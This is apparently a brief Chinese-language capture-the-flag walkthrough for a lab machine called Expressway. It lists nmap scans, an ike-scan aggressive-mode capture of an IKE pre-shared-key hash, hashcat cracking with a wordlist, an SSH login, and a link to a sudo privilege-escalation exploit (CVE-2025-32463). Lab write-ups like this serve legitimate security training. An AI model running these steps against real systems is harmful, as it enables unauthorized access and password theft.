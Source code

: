 ```yaml
---
title: Expressway
date: 2025-09-19
weight: 736
draft: true
tags:
  - linux
  - easy
  - ike-scan
  - cve-2025-32463
---
```



端口扫描：

```bash
# 发现 22 端口
nmap 10.129.238.52

# 发现 500 端口
nmap -sU 10.129.238.52
```

入口：

```bash
# 信息探测
sudo ike-scan -M 10.129.238.52

# 获取 hash
sudo ike-scan -P -M -A -n fakeID 10.129.238.52

# 爆破 hash
hashcat -m 5400 hash.txt /usr/share/wordlists/rockyou.txt
```

爆破出密码，然后ssh登录

信息收集，`sudo -V` 发现 sudo 版本是 1.9.17

网上搜索，发现可以用 [CVE-2025-32463](https://www.exploit-db.com/exploits/52352) 提权 